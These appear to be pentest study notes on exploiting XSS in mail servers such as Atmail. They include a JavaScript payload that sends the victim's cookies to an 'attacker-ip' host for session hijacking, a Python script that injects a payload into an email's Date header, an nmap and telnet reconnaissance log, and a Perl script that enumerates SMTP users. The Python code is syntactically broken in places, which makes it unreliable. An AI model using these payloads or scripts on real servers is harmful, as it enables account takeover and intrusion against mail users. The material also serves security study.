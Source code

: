 # WEB-300: Atmail eMail Server Appliance: from XSS to RCE
The idea is mailservers can be vulnerable to xss, if you send a payload in the date or subject or body as form of iframe or javascript, you canexploit the vulnerability. Note: 99% of the world use about 4 main mail platforms, with gmail and outlook and yahoo basically accounting for over 90% and protonmail 8%. So, everything explained here is mostly theoretical. All mail servers won't accept iframe and the fields are sanitized. So, the only trick you have is still to trick people out of the mail through links. 

## session hijacking
```javascript
function addImage(){
  var img = document.createElement('img');
  img.src = "http://attacker-ip:port/"+document.cookie;
  document.body.appendChild(img);
}

addImage();
```

## sending the payload
```python
import smtplib

def sendEmail(to,from,smtpsrv,payload):
  msg = 'From: attacker@mail.com\n'
  msg += To: victim@mail.com\n'
  msg += f'Date: {payload}\n'
  msg += 'Subject: pwnd\n'
  msg += 'Content-type: text/html\n\n'
  msg += 'something something something'
  msg += '\r\n\r\n'

  server = smtplib.SMTP(smtpsrv)
  try:
    server.sendmail(to, from, msg)
  except:
    pass
  server.quit()
```

## References:
- [Hacking SMTP Servers](https://medium.com/@minimalist.ascent/hacking-smtp-ser-2b8a5cc1ce47)
- 
## other informations
Scan host and verify whether or not the SMTP is actually running we can connect to it via telnet and issue a few commands. After that, enumerate possible users base on OSINT research on Linkedin. 
```bash
root@asus:/mnt% nmap -sV -T4 -p22,25 mail.acme.comStarting Nmap 7.01 ( https://nmap.org ) at 2018-12-28 19:39 MST
Nmap scan report for mail.acme.com
Host is up (0.00097s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u4 (protocol 2.0)
25/tcp open  smtp    Sendmail 8.15.2/8.15.2/Debian-8
MAC Address: 08:00:27:0C:B6:CC (Oracle VirtualBox virtual NIC)
Service Info: Host: debian9.acme.com; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3.63 seconds
root@asus:/mnt%


root@asus:~/pentest_notes% telnet mail.acme.com 25
Trying mail.acme.com...
Connected to mail.acme.com.
Escape character is '^]'.
220 mail.acme.com ESMTP Sendmail 8.15.2/8.15.2/Debian-8; Fri, 28 Dec 2018 19:31:58 -0700;
HELO mail.acme.com
250 mail.acme.com Hello [77.x.x.x], pleased to meet you
quit
221 2.0.0 mail.acme.com closing connection
Connection closed by foreign host.
root@asus:~/pentest_notes%
```
#### Verify a user exists
```
----- SNIP -----
#!/usr/bin/env perl
use strict;
use warnings;use Net::SMTP;open(my $fh, '<', 'users.txt') or die $!;my @users;
while (<$fh>) {
    chomp($_);
    push(@users, $_);
}close($fh) or die $!;my $s = Net::SMTP->new('mail.acme.com');for my $user (0..$#users) { 
    print "$users[$user] user exists\n" if ($s->verify($users[$user]));
    sleep(1);
}
$s->quit; 
----- SNIP -----
```
